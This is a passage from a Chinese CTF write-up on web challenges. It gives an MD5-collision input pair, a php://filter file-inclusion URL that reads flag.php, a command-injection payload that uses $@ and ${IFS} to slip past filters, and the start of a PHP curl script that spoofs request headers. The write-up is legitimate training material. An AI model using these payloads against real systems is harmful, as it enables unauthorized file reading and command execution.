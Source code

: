 <details><summary>Flag</summary></details>

参考博客

> [(6条消息) 总结ctf中 MD5 绕过的一些思路_y0un9er-CSDN博客_ctf md5绕过](https://blog.csdn.net/CSDNiamcoming/article/details/108837347)

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

<details><summary>Flag</summary></details>

### ezinclude

参考博客

> https://blog.csdn.net/vhkjhwbs/article/details/99728785
>
> https://blog.csdn.net/qq_42181428/article/details/87090539
>
> https://www.leavesongs.com/PENETRATION/php-filter-magic.html
>
> https://www.cnblogs.com/ichunqiu/p/10683379.html

``` 
http://47.98.215.112:5000/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

得到base64字符串，解码

<details><summary>Flag</summary></details>

### babeRCE

参考博客

> https://blog.csdn.net/qq_44657899/article/details/107676580

挺有意思，试了里面好多法子，最后试出来了然后还得每个字符之间都加

```
http://47.93.215.154:5000/?rce=t$@a$@c${IFS}f$@l$@a$@g$@.$@p$@h$@p
```

<details><summary>Flag</summary></details>

### Do you know HTTP?

php真是绝绝子

用php+curl，查阅了文档，然后一步一步按题给的要求加东西

```php+HTML
<?php

$url='http://47.93.215.154:5002';
$ch=curl_init();
$header = array (
    "Referer: www.ltyyds.com",
    "X-Forwarded-For: 127.0.0.1",
    "User-Agent: LT",
    "Date: Dec, 26 Dec 2015 17:30:00 GMT",
);

curl_setopt($ch,CURLOPT_URL,$url);
curl_setopt($ch,CURLOPT_CUSTOMREQUEST,'HS');
curl_setopt($ch,CURLOPT_TIMEOUT,5);
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
```